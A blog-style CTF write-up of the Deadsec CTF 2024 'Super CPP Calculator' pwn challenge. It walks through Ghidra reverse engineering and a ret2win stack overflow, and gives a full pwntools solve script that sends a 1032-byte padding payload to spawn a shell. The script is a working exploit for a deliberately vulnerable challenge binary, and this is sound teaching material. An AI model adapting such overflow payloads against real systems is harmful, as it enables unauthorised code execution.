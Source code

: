 ```yaml
---
date: "2024-07-30"
layout: post
title: Super CPP Calculator (pwn)
---
```


Super CPP Calculator is a pwn challenge from Deadsec ctf 2024

There's one binary given, let's examine the binary first:

![checksec](checksec.png)

OK, looks promising for an easy pwn, let's open the binary in Ghidra.

Looking at the main function in Ghidra (cleaned up for clarity)

![main](main.png)

There are a few things to note here, we can see that a `Calculator` class is used here, and it appears to be allocated on the stack, so let's look at the class.

![stdcall](stdcall.png)

This is what you may see when you open the constructor in Ghidra, you may ask, what is this `in_RDI` thing?

If you are familiar with the standard C calling convention, rdi is usually used as the first argument to a function call. In this case, if we refer to the main function, we call the constructor with the first parameter as the stack-allocated Calculator object, so from this, we can infer that the constructor does take a parameter.

In pure C, it may look like something like this:

```c
struct Calculator {
    int a;
    ...
};

void Calculator_init(struct Calculator* calc) {
    calc->a = 0;
    ...
}

int main() {
    struct Calculator calc;
    Calculator_init(&calc);
}

```

A quick Google search revealed that C++ classes use the `__thiscall` calling convention, we can edit the function signature in Ghidra to achieve that. Here is the cleaned up constructor:

![constructor](constructor.png)

The constructor for the calculator class appears to set all the attributes of the class to zero.

Let's keep examining the binary, here we can take a look at the backdoor that has been given to us.

![backdoor](backdoor.png)

Looks like we have something of interest here, a `read` function, and the `len` parameter that appears to be an attribute of the calculator object. We also have a buffer that we can control, we have a buffer overflow here.

Looking slightly deeper into the function listing in Ghidra, we see a win function:

```c
void win(void) {
    system("/bin/sh");
}
```

Based on these clues, this is a ret2win buffer overflow exploit, now we need to figure out how to control `this+24` so we can overflow the return address.

Let's look at the `setnumber_floater` method:

![floater](floater.png)

This function looks like a lot of code, but there are a few details:

In line 21-22, we can see that the value of `this+24`, which is the value for the `len` parameter, is the quotient of the two values we put in, with constraints. We can derive the formula:

```c
float A = this + 12  0.0 < A < 10.0
float B = this + 16  0.0 < B < 10.0
size_t len = (int)A/B
```

Now we need to figure out how many bytes we need to read to overflow the stack in the backdoor, let's look at the assembly for backdoor.

![stack-size](stack-size.png)

The total stack size of the backdoor function is hex 410, that translates to 1040 bytes in decimal. Recall the stack layout:

```
---------
ret addr
---------
saved rbp
---------
local var
---------
```

Looking at the assembly `lea rax, [rbp-0x400]; mov rsi,rax`, the buffer starts at rbp - 1024, in order to reach the return address, we need to write 1024(local var) + 8 bytes (rbp) of data, adding the packed return address after.

Knowing this data, we can divide 10 by a small number, such as 0.008, to give us enough read for the buffer overflow.

To put it together, first we need to make the selection to enter `floater_calculator`, then put in the two values to set `this + 24`, then we can put in `1337` to trigger the back door, writing the overflow, then ret2win.

Full solve is following:

```py
from pwn import *
context.terminal = ['tmux', 'splitw','-h']
HOST = "35.224.190.229"
#run = remote(HOST, 31972)
e = context.binary = ELF("./test")
run = e.debug()
run.sendline(b"1")
run.sendline(b"10")
run.sendline(b"0.008")
run.sendline(b"1337")
run.send(b'a'*1032+p64(e.address+0x1748)) # offset for win
run.interactive()
```

You may ask, why did you return to offset 0x1748 and not 0x1740? This is because the `endbr64` instruction attempts to align the stack, which causes a crash in the following `system` call, so to bypass that, it is better to return slightly after that to avoid the stack alignment issue.

Thanks for reading.
